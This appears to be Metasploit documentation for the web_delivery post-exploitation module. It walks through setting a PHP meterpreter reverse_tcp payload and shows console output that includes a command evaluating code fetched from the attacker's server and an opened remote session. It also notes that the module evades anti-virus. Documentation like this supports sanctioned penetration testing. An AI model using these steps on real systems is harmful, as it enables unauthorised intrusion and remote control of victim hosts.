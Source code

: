 ## Introduction

The web_delivery module provides a stealthy way to deliver a payload during post exploitation over HTTP or HTTPS. Because the payload does not touch the disk, it can easily bypass many anti-virus protections.

The web_delivery module supports three different languages for delivery: Python, PHP, and
Powershell. You should manually select the correct target based on the victim environment you are exploiting.

For example, if you have gained remote access through a PHP application, it is likely you can use PHP. If you are in a modern Windows server environment, then you can usually assume the target supports Powershell as well.


## Verification Steps

To use the web_delivery module, you must first gain access to the target host and be able to execute either a Python, PHP, or Powershell interpreter. Then, follow these steps to proceed with exploitation:

1. Start msfconsole
2. Run: ```use exploit/multi/script/web_delivery```
3. Run: ```set target 1``` (1 is PHP. You can use ```show targets``` to see other options)
4. Run: ```set PAYLOAD php/meterpreter/reverse_tcp``` (You can do ```show payloads``` to see what options are suitable for the target)
5. Run: ```set LHOST IP``` (The IP the payload should connect back to)
6. Do: ```run```
7. At this point, a handler is up for that payload, and the module should instruct you to execute a command.
8. Copy the command. Depending on your pentesting scenario, you can either inject the
   command into a vulnerable application, or run it from the target's shell and get a session:

```
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.1:4444
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/z5inGkwCCQiz9
[*] Local IP: http://10.6.0.86:8080/z5inGkwCCQiz9
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.2.1:8080/z5inGkwCCQiz9'));"
[*] Delivering Payload
[*] Sending stage (33684 bytes) to 192.168.2.134
[*] Meterpreter session 1 opened (192.168.2.1:4444 -> 192.168.2.134:41684) at 2016-03-02 11:41:34 -0600
```

## Targets

**Python**
